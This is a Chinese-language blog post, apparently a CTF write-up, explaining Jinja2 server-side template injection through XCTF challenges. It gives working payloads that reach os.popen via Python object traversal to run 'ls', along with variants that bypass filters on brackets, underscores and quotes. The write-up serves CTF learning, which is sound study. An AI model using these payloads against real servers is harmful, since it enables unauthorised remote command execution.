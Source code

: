 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - Web
  - SSTI
---
```

# 最基础的概念
这道题没有任何限制，just讲一下基本步骤
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）  
这道题什么都没有过滤  
ls的payload:
```
{% raw %}{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}{% endraw %}
```
注意，在基类中，os所在的`site._Printer`不一定是第几个，这个题是第71个罢了。subclass可以看到所有类，慢慢找  
  
而且名字也不一定叫`site._Printer`，但长得差不多，比如校赛中的就叫`_sitebuiltins._Printer`，关键字就这么几个  
  
每个指令的作用：
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
这个题不能用下面的request的方法，会直接跳过{{}}，因为是不是`/msg={{}}`，而是`/{{}} ` 
`ls`查看的是当前目录，`ls /`查看的是根目录  
最后用`cat fl4g`读取文件
# 过滤了_、\[]、‘’、“”
XCTF mine1_1    
如果只过滤`[]`的话，payload长这样：
```
{% raw %}{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read(){% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 过滤了{% raw %}{{{% endraw %}
两个大括号连着一起会被检测，但是一个大括号莫得事  
所以我们可以用`{% assign openTag = '{%' %}{{ openTag }}print()%}`来代替
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
这CTF打的，我渗透我自己  
解决办法{% assign openTag = '{%' %}
```
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```
{% raw %}{% assign openTag = '{%' %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}{% endraw %}
```
打`{% raw %}{{ openTag }} raw %}{% endraw %}`的时候差点又忘了刚学的`{{ openTag }} raw %}`，吐了吐了
